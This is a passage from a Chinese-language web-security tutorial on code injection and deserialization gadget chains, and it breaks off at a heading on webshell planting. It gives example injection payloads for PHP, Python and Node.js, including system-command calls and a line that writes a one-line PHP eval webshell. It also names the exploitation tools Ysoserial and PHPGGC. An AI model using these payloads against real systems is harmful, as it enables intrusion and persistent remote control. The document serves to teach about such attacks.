   
、
```
exec()
```

  
 等函数将用户输入作为代码执行时，攻击者可以直接注入目标语言的代码。  
  
•**PHP：**  
  
•  
注入 
```
phpinfo();
```

  
 查看环境信息。  
•  
注入 
```
system('ls -al /');
```

  
 执行系统命令。  
•  
写入 WebShell：
```
file_put_contents('shell.php', '<?php eval($_POST[cmd]); ?>');
```

  
  
•**Python：**  
•  
注入 
```
__import__('os').system('ls -al /')
```

  
  
•**JavaScript (Node.js 后端)：**  
•  
注入 
```
require('child_process').execSync('id').toString()
```

  
### 3. 反序列化漏洞的利用链 (Gadget Chains)  
  
反序列化漏洞的利用并非直接注入代码，而是构造恶意的序列化数据，利用应用程序中存在的“**小工具链 (Gadget Chains)**  
”——即一系列在反序列化过程中会被自动调用或触发的方法或函数调用路径——最终达到执行任意代码的目的。这通常需要深入了解目标应用程序或其依赖库的源代码。  
  
•**常见的 Gadget Chain 发现：**  
 通常依赖于对流行框架和库的审计，如 Java 的 Apache Commons Collections、Fastjson，PHP 的 Guzzle、Monolog，.NET 的 TypeConfuseDelegate 等。  
•**利用工具：**  
 如 Java 的 Ysoserial、PHP 的 PHPGGC，这些工具预置了常见的 Gadget Chain。  
### 4. WebShell 植入与管理  
  
